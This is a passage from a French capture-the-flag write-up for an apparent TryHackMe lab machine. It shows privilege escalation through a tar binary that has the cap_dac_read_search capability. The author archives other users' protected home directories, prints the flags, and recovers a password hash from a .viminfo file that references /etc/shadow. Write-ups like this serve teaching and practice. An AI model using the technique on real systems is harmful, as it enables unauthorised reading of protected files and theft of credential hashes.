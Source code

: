 Finalement j'ai lancé `LinPEAS` qui m'a remonté le binaire `tar` à un emplacement inhabituel et une `capability` encore plus inhabituelle.

```
Files with capabilities (limited to 50):
/etc/fonts/tar = cap_dac_read_search+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr = cap_net_raw+ep
```

Cette dernière est documentée sur [Linux Capabilities - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search) :

> [**CAP_DAC_READ_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows a process to **bypass file read, and directory read and execute permissions**.

Du coup je peux utiliser cette copie de `tar` pour récupérer des fichiers sans me soucier des permissions :

```console
john@findingmyfriend:~$ /etc/fonts/tar cz /home/parth/ > parth.tar.gz
/etc/fonts/tar: Removing leading `/' from member names
john@findingmyfriend:~$ tar zvtf parth.tar.gz 
drwxr-x--- parth/parth       0 2021-01-06 07:45 home/parth/
-rw-r----- parth/parth    3771 2021-01-06 07:45 home/parth/.bashrc
-rw-r----- parth/parth     220 2021-01-06 07:45 home/parth/.bash_logout
-rw-r----- parth/parth     655 2021-01-06 07:45 home/parth/.profile
-rwxr-x--- parth/parth      31 2021-01-06 07:45 home/parth/flag3.txt
-rwxr-x--- parth/parth      33 2021-01-06 07:45 home/parth/honey.txt
```

Ce nouveau flag est `tryhackme{Sh3is@lm0stn3@rtoY0u}`.

Le fichier texte est le suivant :

> My home directory might help you.

Faisons donc la même chose avec le dossier personnel de `honey`.

J'obtiens le dernier flag :

```console
john@findingmyfriend:~/home/honey$ cat flag4.txt 
tryhackme{F1n@llyIFInD3dH3r}
```

Je trouve aussi un hash dans son `.viminfo` :

```
# Registers:
""1     LINE    0
        vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
"2      LINE    0
        vagrant:$6$TQ3BtU5J$93pEgAS3/UuePOKzGaWGNb1qyBEFsefSU1FmK1pLC6H1BiL7szqsM2/AvdrQT9FH0YrkNLcIaVn7vUtHmMWTi/:18606:0:99999:7:::

# File marks:
'0  31  0  /etc/passwd
'1  31  0  /etc/shadow
```
